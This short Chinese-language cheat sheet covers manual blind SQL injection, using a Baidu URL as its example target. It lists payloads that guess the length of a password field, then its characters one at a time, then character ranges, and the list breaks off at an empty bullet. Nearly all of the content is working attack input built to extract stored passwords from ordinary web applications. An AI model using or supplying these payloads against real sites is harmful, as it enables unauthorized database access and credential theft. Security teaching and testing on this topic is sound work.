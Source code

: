 ##  sql手工注入:如地址http://www.baidu.com/?id=1
* 猜解长度 id=1 and length(passwd)=12#
* 猜解字符 id=1 and mid(passwd,1,1)=char(97)#
* 猜解范围 id=1 and mid(passwd,1,1) between char(97) and char(100)# 或者 id=1 and ord(mid(passwd,1,1))<100#
* 
